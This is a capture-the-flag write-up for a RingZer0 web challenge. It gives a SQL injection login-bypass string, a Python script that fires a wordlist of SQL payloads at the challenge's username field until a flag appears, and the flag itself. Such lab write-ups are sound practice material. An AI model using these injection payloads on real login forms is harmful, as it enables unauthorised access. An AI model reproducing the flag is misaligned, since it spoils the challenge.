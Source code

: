<h1>ACL rulezzz the world</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10002/</p>
<h3>Solution</h3>

<p>Injection : admin'or'1'=1#</p>

```python3
import requests

wordlist = open("../Wordlist/SQL.txt",'r')
url = "http://challenges.ringzer0ctf.com:10002/"
for i in wordlist:
    i = i.strip('\n')
    data = {"username":i}
    res = requests.post(url,data=data).text
    if "FLAG" in res:
        print(i,"Worked!")
        print(res)
        break

```
<h3>Flag</h3>
<pre>
  FLAG-sdfoip340e89rfuj34woit
</pre>
